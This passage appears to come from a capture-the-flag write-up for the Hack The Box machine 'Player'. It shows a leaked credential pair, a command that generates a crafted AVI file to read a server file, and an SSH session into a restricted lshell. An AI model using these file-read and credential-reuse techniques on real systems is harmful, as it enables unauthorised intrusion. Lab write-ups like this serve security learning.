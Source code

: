 ![](/assets/images/htb-writeup-player/service_config.png)

Cool, I found some credentials: `telegen / d-bC|jC!2uepS/w`. I'll check the `fix.php` file next:

`python3 gen_avi_bypass.py /var/www/staging/fix.php ~/htb/player/payload.avi`

I can't read that one. The resulting video file was empty so I probably don't have access to it.

## Restricted shell

With the user `telegen` I'm able to SSH to the 2nd service running on port 6686 but I'm in restricted shell and can't run any commands:

```
root@ragingunicorn:~/htb/player# ssh -p6686 telegen@10.10.10.145
telegen@10.10.10.145's password: 
Last login: Tue Apr 30 18:40:13 2019 from 192.168.0.104
Environment:
  USER=telegen
  LOGNAME=telegen
  HOME=/home/telegen
  PATH=/usr/bin:/bin:/usr/sbin:/sbin:/usr/local/bin
  MAIL=/var/mail/telegen
  SHELL=/usr/bin/lshell
  SSH_CLIENT=10.10.14.11 55802 6686
  SSH_CONNECTION=10.10.14.11 55802 10.10.10.145 6686
  SSH_TTY=/dev/pts/0
  TERM=xterm-256color
========= PlayBuff ==========
Welcome to Staging Environment

telegen:~$ ls
*** forbidden command: ls
telegen:~$ help
  clear  exit  help  history  lpath  lsudo
telegen:~$ lpath
Allowed:
 /home/telegen 
telegen:~$ lsudo
Allowed sudo commands:
```

The `SHELL` environment variable points `lshell`. I don't know that one so I'll google it and discover that it's web based python shell.
